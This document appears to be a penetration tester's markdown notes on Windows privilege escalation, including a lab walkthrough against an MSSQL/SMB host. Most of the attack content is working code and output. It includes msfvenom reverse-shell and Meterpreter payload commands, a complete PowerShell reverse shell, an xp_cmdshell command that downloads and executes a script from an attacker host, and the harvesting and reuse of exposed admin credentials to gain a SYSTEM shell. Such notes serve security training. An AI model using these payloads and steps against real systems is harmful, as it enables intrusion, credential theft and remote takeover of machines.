

[TOC]


# Windows Privilege Escalation

## Website Links

002 Fuzzy-Security-Guide
https://www.fuzzysecurity.com/tutorials/16.html

002 PayloadsAllTheThings-Guide
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

002 Absolombs-Guide
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

002 Sushant-747s-Guide
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

004 Hack-The-Box-Website
http://hackthebox.eu/

005 msfvenom-Cheat-Sheet
https://netsec.ws/?p=331


## Metasploit Reverse Tcp

1. Create payload

````
# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.101.117 LPORT=4444 -f aspx > exploit.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of aspx file: 1010400 bytes
````

2. Setup listener

```
msf6 > use exploit/multi/handler 

msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.101.117
LHOST => 192.168.101.117

msf6 exploit(multi/handler) > run
```

3. Copy payload to victims computer thru FTP

```
# ftp 192.168.101.113
Connected to 192.168.101.113.
220 Microsoft FTP Service
Name (192.168.101.113:kali): sherwinowen
331 Password required for sherwinowen.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put exploit.aspx 
local: exploit.aspx remote: exploit.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1018433 bytes sent in 0.10 secs (9.6184 MB/s)
```

4. Browse the payload

```
http:192.168.101.113/exploit.aspx
```


5. Meterpreter session will open

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.101.117:4444 
[*] Sending stage (200262 bytes) to 192.168.101.113
[*] Meterpreter session 1 opened (192.168.101.117:4444 -> 192.168.101.113:49230) at 2021-03-01 07:22:47 -0500

meterpreter > sysinfo 
Computer        : WIN-IEGQMA4K1VH
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > 
```


## Shell Reverse Tcp

1. On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

2. Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

​      On Kali, in the same directory as reverse.exe:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

3. On Windows (update the IP address with your Kali IP):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

4. Test the reverse shell by setting up a netcat listener on Kali:

```
sudo nc -nvlp 53
```

5. Then run the reverse.exe executable on Windows and catch the shell:

``` 
C:\PrivEsc\reverse.exe
```

6. Check the netcat listener

```
 nc -nvlp 53                                                                                                                130 ⨯
listening on [any] 53 ...
connect to [10.9.1.157] from (UNKNOWN) [10.10.153.112] 49769
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\PrivEsc>
```


## SMB and MSSQL Server Exploit

1. Enumeration

``` 
# ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
# nmap -sC -sV -p$ports 10.10.10.27
tarting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 05:39 EST
Nmap scan report for 10.10.10.27
Host is up (0.31s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-03-04T23:31:40
|_Not valid after:  2051-03-04T23:31:40
|_ssl-date: 2021-03-05T11:58:27+00:00; +1h17m19s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h53m19s, deviation: 3h34m40s, median: 1h17m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-05T03:58:11-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-05T11:58:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.88 seconds
```

**Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.**

2. Use smbclient to list available shares

```
# smbclient -N -L \10.10.10.27

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

It seems there is a share called **backups**. Let's attempt to access it and see what's inside.

```
# smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

		10328063 blocks of size 4096. 8247969 blocks available
smb: \> get prod.dtsConfig d.dtsConfig
getting file \prod.dtsConfig of size 609 as d.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> 
```

There is a dtsConfig file, which is a config file used with SQL Server Integration Services (SSIS) .

```
# cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
```

We see that it contains a SQL connection string, containing credentials for the local Windows user ARCHETYPE\sql_svc.

3. Connect to the SQL Server using Impacket's mssqlclient.py

https://github.com/SecureAuthCorp/impacket

```
(root💀kali)-[/home/kali/impacket/examples]
└─# python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

```
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                  
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

4. Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

5. Stand up a mini webserver in order to host the file. We can use Python.

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

6. Create a netcat listener

```
# nc -nvlp 443                               
listening on [any] 443 ...

```

7. We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.21/shell.ps1\");"
```

8. Check the netcat listener

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```
# nc -nvlp 443                               
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.27] 49842

# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

This reveals that the backups drive has been mapped using the local administrator credentials.  **user:administrator MEGACORP_4dm1n!!**

9. We can use Impacket's psexec.py to gain a privileged shell.

```
(root💀kali)-[/home/kali/impacket/examples]
└─# python3 psexec.py administrator@10.10.10.27                                                                 1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file oWFuDWsg.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service IQsh on 10.10.10.27.....
[*] Starting service IQsh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


## System Enumeration

### List System Information 

```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 WIN-IEGQMA4K1VH
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00371-177-0000061-85428
Original Install Date:     3/1/2021, 10:06:58 AM
System Boot Time:          3/1/2021, 4:01:29 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 78 Stepping 3 GenuineIntel ~2807 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 2/27/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+08:00) Beijing, Chongqing, Hong Kong, Urumqi
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,414 MB
Virtual Memory: Max Size:  8,189 MB
Virtual Memory: Available: 7,462 MB
Virtual Memory: In Use:    727 MB
.....
```

**Systeminfo with grep**

```
c:\windows\system32\inetsrv>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
systeminfosysteminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7600 N/A Build 7600
System Type:               x64-based PC
```

### Check updates installed  

Windows Management Instrumentation Command (wmic) 
Quick Fix Engineering (qfe)

```
c:\Windows\System32> wmic qfe
 wmic qfe
Caption                                     CSName           Description      FixComments  HotFixID   InstallDate  InstalledBy  InstalledOn  Name  ServicePackInEffect  Status  
http://support.microsoft.com/?kbid=2032276  WIN-IEGQMA4K1VH  Security Update               KB2032276                            3/1/2021                                        
http://support.microsoft.com/?kbid=2079403  WIN-IEGQMA4K1VH  Security Update               KB2079403                            3/1/2021                                        
http://support.microsoft.com/?kbid=2160329  WIN-IEGQMA4K1VH  Security Update               KB2160329                            3/1/2021                                        
http://support.microsoft.com/?kbid=2183461  WIN-IEGQMA4K1VH  Security Update               KB2183461                            3/1/2021                                        
http://support.microsoft.com/?kbid=2272691  WIN-IEGQMA4K1VH  Update                        KB2272691                            3/1/2021                                        
http://support.microsoft.com/?kbid=2286198  WIN-IEGQMA4K1VH  Security Update               KB2286198                            3/1/2021                                        
http://support.microsoft.com/?kbid=972270   WIN-IEGQMA4K1VH  Security Update               KB972270                             3/1/2021                                        
http://support.microsoft.com/?kbid=974431   WIN-IEGQMA4K1VH  Update                        KB974431                             3/1/2021                                        
http://support.microsoft.com/?kbid=974571   WIN-IEGQMA4K1VH  Security Update               KB974571                             3/1/2021                                        
http://support.microsoft.com/?kbid=975467   WIN-IEGQMA4K1VH  Hotfix                        KB975467                             3/1/2021                                        
http://support.microsoft.com/?kbid=975496   WIN-IEGQMA4K1VH  Update                        KB975496                             3/1/2021                                        
http://support.microsoft.com/?kbid=975560   WIN-IEGQMA4K1VH  Security Update               KB975560                             3/1/2021                                        
http://support.microsoft.com/?kbid=976422   WIN-IEGQMA4K1VH  Hotfix                        KB976422                             3/1/2021                                        
http://support.microsoft.com/?kbid=976662   WIN-IEGQMA4K1VH  Update                        KB976662                             3/1/2021                                        
http://support.microsoft.com/?kbid=977074   WIN-IEGQMA4K1VH  Update                        KB977074                             3/1/2021                                        
http://support.microsoft.com/?kbid=978542   WIN-IEGQMA4K1VH  Security Update               KB978542                             3/1/2021                                        
http://support.microsoft.com/?kbid=978601   WIN-IEGQMA4K1VH  Security Update               KB978601                             3/1/2021                                        
http://support.microsoft.com/?kbid=978637   WIN-IEGQMA4K1VH  Update                        KB978637                             3/1/2021                                        
http://support.microsoft.com/?kbid=978886   WIN-IEGQMA4K1VH  Security Update               KB978886                             3/1/2021                                        
http://support.microsoft.com/?kbid=979099   WIN-IEGQMA4K1VH  Update                        KB979099                             3/1/2021                                        
http://support.microsoft.com/?kbid=979309   WIN-IEGQMA4K1VH  Security Update               KB979309                             3/1/2021                                        
http://support.microsoft.com/?kbid=979482   WIN-IEGQMA4K1VH  Security Update               KB979482                             3/1/2021                                        
http://support.microsoft.com/?kbid=980195   WIN-IEGQMA4K1VH  Security Update               KB980195                             3/1/2021                                        
http://support.microsoft.com/?kbid=980218   WIN-IEGQMA4K1VH  Security Update               KB980218                             3/1/2021                                        
http://support.microsoft.com/?kbid=980232   WIN-IEGQMA4K1VH  Security Update               KB980232                             3/1/2021                                        
http://support.microsoft.com/?kbid=980408   WIN-IEGQMA4K1VH  Update                        KB980408                             3/1/2021                                        
http://support.microsoft.com/?kbid=980436   WIN-IEGQMA4K1VH  Security Update               KB980436                             3/1/2021                                        
http://support.microsoft.com/?kbid=980846   WIN-IEGQMA4K1VH  Update                        KB980846                             3/1/2021                                        
http://support.microsoft.com/?kbid=981078   WIN-IEGQMA4K1VH  Update                        KB981078                             3/1/2021                                        
http://support.microsoft.com/?kbid=981332   WIN-IEGQMA4K1VH  Security Update               KB981332                             3/1/2021                                        
http://support.microsoft.com/?kbid=981793   WIN-IEGQMA4K1VH  Update                        KB981793                             3/1/2021                                        
http://support.microsoft.com/?kbid=981852   WIN-IEGQMA4K1VH  Security Update               KB981852                             3/1/2021                                        
http://support.microsoft.com/?kbid=982110   WIN-IEGQMA4K1VH  Update                        KB982110                             3/1/2021                                        
http://support.microsoft.com/?kbid=982214   WIN-IEGQMA4K1VH  Security Update               KB982214                             3/1/2021                                        
http://support.microsoft.com/?kbid=982664   WIN-IEGQMA4K1VH  Update                        KB982664                             3/1/2021                                        
http://support.microsoft.com/?kbid=982665   WIN-IEGQMA4K1VH  Security Update               KB982665                             3/1/2021                                        
http://support.microsoft.com/?kbid=982666   WIN-IEGQMA4K1VH  Security Update               KB982666                             3/1/2021                                        
http://support.microsoft.com/?kbid=982799   WIN-IEGQMA4K1VH  Security Update               KB982799                             3/1/2021                       
```

**Select the column you want to display**

```
c:\windows\system32\inetsrv>wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn
Caption                                     Description      HotFixID   InstalledOn  
http://support.microsoft.com/?kbid=2032276  Security Update  KB2032276  3/1/2021     
http://support.microsoft.com/?kbid=2079403  Security Update  KB2079403  3/1/2021     
http://support.microsoft.com/?kbid=2160329  Security Update  KB2160329  3/1/2021     
http://support.microsoft.com/?kbid=2183461  Security Update  KB2183461  3/1/2021     
http://support.microsoft.com/?kbid=2272691  Update           KB2272691  3/1/2021     
http://support.microsoft.com/?kbid=2286198  Security Update  KB2286198  3/1/2021     
http://support.microsoft.com/?kbid=972270   Security Update  KB972270   3/1/2021     
http://support.microsoft.com/?kbid=974431   Update           KB974431   3/1/2021     
http://support.microsoft.com/?kbid=974571   Security Update  KB974571   3/1/2021     
http://support.microsoft.com/?kbid=975467   Hotfix           KB975467   3/1/2021     
http://support.microsoft.com/?kbid=975496   Update           KB975496   3/1/2021     
http://support.microsoft.com/?kbid=975560   Security Update  KB975560   3/1/2021     
http://support.microsoft.com/?kbid=976422   Hotfix           KB976422   3/1/2021     
http://support.microsoft.com/?kbid=976662   Update           KB976662   3/1/2021     
http://support.microsoft.com/?kbid=977074   Update           KB977074   3/1/2021     
http://support.microsoft.com/?kbid=978542   Security Update  KB978542   3/1/2021     
http://support.microsoft.com/?kbid=978601   Security Update  KB978601   3/1/2021     
http://support.microsoft.com/?kbid=978637   Update           KB978637   3/1/2021     
http://support.microsoft.com/?kbid=978886   Security Update  KB978886   3/1/2021     
http://support.microsoft.com/?kbid=979099   Update           KB979099   3/1/2021     
http://support.microsoft.com/?kbid=979309   Security Update  KB979309   3/1/2021     
http://support.microsoft.com/?kbid=979482   Security Update  KB979482   3/1/2021     
http://support.microsoft.com/?kbid=980195   Security Update  KB980195   3/1/2021     
http://support.microsoft.com/?kbid=980218   Security Update  KB980218   3/1/2021     
http://support.microsoft.com/?kbid=980232   Security Update  KB980232   3/1/2021     
http://support.microsoft.com/?kbid=980408   Update           KB980408   3/1/2021     
http://support.microsoft.com/?kbid=980436   Security Update  KB980436   3/1/2021     
http://support.microsoft.com/?kbid=980846   Update           KB980846   3/1/2021     
http://support.microsoft.com/?kbid=981078   Update           KB981078   3/1/2021     
http://support.microsoft.com/?kbid=981332   Security Update  KB981332   3/1/2021     
http://support.microsoft.com/?kbid=981793   Update           KB981793   3/1/2021     
http://support.microsoft.com/?kbid=981852   Security Update  KB981852   3/1/2021     
http://support.microsoft.com/?kbid=982110   Update           KB982110   3/1/2021     
http://support.microsoft.com/?kbid=982214   Security Update  KB982214   3/1/2021     
http://support.microsoft.com/?kbid=982664   Update           KB982664   3/1/2021     
http://support.microsoft.com/?kbid=982665   Security Update  KB982665   3/1/2021     
http://support.microsoft.com/?kbid=982666   Security Update  KB982666   3/1/2021     
http://support.microsoft.com/?kbid=982799   Security Update  KB982799   3/1/2021     

```

### List logical disk

```
c:\windows\system32\inetsrv>wmic logicaldisk get caption,description,providername
wmic logicaldisk get caption,description,providername
Caption  Description       ProviderName  
C:       Local Fixed Disk                
D:       CD-ROM Disc            
```


## User Enumeration

### Check username

```
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

### Check Privileges

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

### Check Groups

```
c:\windows\system32\inetsrv>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
```

 ### List users

```
c:\windows\system32\inetsrv>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    Sherwin Owen             
sherwinowen              
The command completed with one or more errors.
```

### Display information about the user

```
c:\windows\system32\inetsrv>net user sherwinowen
net user sherwinowen
User name                    sherwinowen
Full Name                    Sherwin
Comment                      
User's comment               
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/1/2021 11:52:12 AM
Password expires             Never
Password changeable          3/1/2021 11:52:12 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   3/1/2021 8:22:30 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.
```

### Check members of the group administraors

```
c:\windows\system32\inetsrv>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Sherwin Owen
sherwinowen
The command completed successfully.
```


## Network Enumeration

### Show IP configuration

```
c:\windows\system32\inetsrv>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : local
   Link-local IPv6 Address . . . . . : fe80::7801:8aec:1131:400f%11
   IPv4 Address. . . . . . . . . . . : 192.168.101.112
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.101.2

Tunnel adapter isatap.{193499A7-79A5-4F18-AC74-5FF2FBF573CE}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

Tunnel adapter isatap.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : local
```

```
c:\windows\system32\inetsrv>ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : WIN-IEGQMA4K1VH
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : local

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Bluetooth Device (Personal Area Network)
   Physical Address. . . . . . . . . : F0-D5-BF-E4-E9-08
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : local
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-0C-29-11-1E-57
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::7801:8aec:1131:400f%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 192.168.101.112(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Lease Obtained. . . . . . . . . . : Tuesday, March 02, 2021 7:48:58 AM
   Lease Expires . . . . . . . . . . : Tuesday, March 02, 2021 10:48:58 AM
   Default Gateway . . . . . . . . . : 192.168.101.2
   DHCP Server . . . . . . . . . . . : 192.168.101.2
   DHCPv6 IAID . . . . . . . . . . . : 234884137
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-27-CE-E5-25-00-0C-29-11-1E-57
   DNS Servers . . . . . . . . . . . : 8.8.8.8
                                       8.8.4.4
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{193499A7-79A5-4F18-AC74-5FF2FBF573CE}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter isatap.local:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : local
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```

### Show ARP table

```
c:\windows\system32\inetsrv>arp -a
arp -a

Interface: 192.168.101.112 --- 0xb
  Internet Address      Physical Address      Type
  192.168.101.2         bc-98-89-9d-3c-58     dynamic   
  192.168.101.110       ec-9b-f3-3c-f8-a2     dynamic   
  192.168.101.114       18-db-f2-39-6a-b3     dynamic   
  192.168.101.117       00-0c-29-17-98-02     dynamic   
  192.168.101.118       94-e9-79-fe-2a-2d     dynamic   
  192.168.101.255       ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
  239.255.255.250       01-00-5e-7f-ff-fa     static    
  255.255.255.255       ff-ff-ff-ff-ff-ff     static    
```

### Show Route table

```
c:\windows\system32\inetsrv> route print
 route print
===========================================================================
Interface List
 14...f0 d5 bf e4 e9 08 ......Bluetooth Device (Personal Area Network)
 11...00 0c 29 11 1e 57 ......Intel(R) PRO/1000 MT Network Connection
  1...........................Software Loopback Interface 1
 12...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter
 15...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter #2
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0    192.168.101.2  192.168.101.112     10
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    306
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    306
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    306
    192.168.101.0    255.255.255.0         On-link   192.168.101.112    266
  192.168.101.112  255.255.255.255         On-link   192.168.101.112    266
  192.168.101.255  255.255.255.255         On-link   192.168.101.112    266
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    306
        224.0.0.0        240.0.0.0         On-link   192.168.101.112    266
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    306
